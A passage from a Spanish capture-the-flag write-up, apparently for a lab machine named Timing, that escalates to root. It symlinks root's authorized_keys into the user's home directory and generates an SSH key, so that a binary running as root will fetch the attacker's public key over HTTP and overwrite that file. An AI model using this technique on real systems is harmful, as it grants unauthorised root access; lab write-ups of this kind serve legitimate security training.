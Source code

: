 Lo que ha hecho el binario es descargar nuestro archivo, y como vemos en el output, el propietario es root...

Por lo tanto, algo que se me ocurre es tratar de inyectar una clave pública SSH en el **`authorized_keys`** del usuario **`root`**.
Para ello lo primero que podemos hacer es crear un enlace simbólico a este recurso:

```console
aaron@timing:~$ ln -s /root/.ssh/authorized_keys wild
aaron@timing:~$ ls -la
total 36
drwxr-x--x 5 aaron aaron 4096 Apr  8 15:20 .
drwxr-xr-x 3 root  root  4096 Dec  2 09:55 ..
lrwxrwxrwx 1 root  root     9 Oct  5  2021 .bash_history -> /dev/null
-rw-r--r-- 1 aaron aaron  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 aaron aaron 3771 Apr  4  2018 .bashrc
drwx------ 2 aaron aaron 4096 Nov 29 01:34 .cache
drwx------ 3 aaron aaron 4096 Nov 29 01:34 .gnupg
drwxrwxr-x 3 aaron aaron 4096 Nov 29 01:34 .local
-rw-r--r-- 1 aaron aaron  807 Apr  4  2018 .profile
lrwxrwxrwx 1 root  root     9 Oct  5  2021 .viminfo -> /dev/null
lrwxrwxrwx 1 aaron aaron   26 Apr  8 15:20 wild -> /root/.ssh/authorized_keys
-rw-r----- 1 root  aaron   33 Apr  8 13:34 user.txt
```

En nuestra máquina ahora generamos un par de claves SSH con ayuda de **`ssh-keygen`**

```console
p3ntest1ng:~$ ssh-keygen -t rsa -b 2048
Generating public/private rsa key pair.
Enter file in which to save the key (/home/any0ne/.ssh/id_rsa): pwnkey
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in pwnkey
Your public key has been saved in pwnkey.pub
The key fingerprint is:
SHA256:iQH2ALr4QTHNqANnwfaAuRJPVJ/uNMIkxDE1Ac/ZpdM any0ne@p3ntest1ng
The key's randomart image is:
+---[RSA 2048]----+
| *@@O.  .        |
|=oXBoO =         |
|oXoo= O E        |
|*o.+.. + .       |
|+.. o = S        |
| . . + .         |
|  .   .          |
|                 |
|                 |
+----[SHA256]-----+
p3ntest1ng:~$ cp pwnkey.pub wild
```

Compartimos de nuevo un servidor http (si hemos cerrado el anterior) en nuestra maquina para que podamos descargar el **`.pub`** generado previamente.

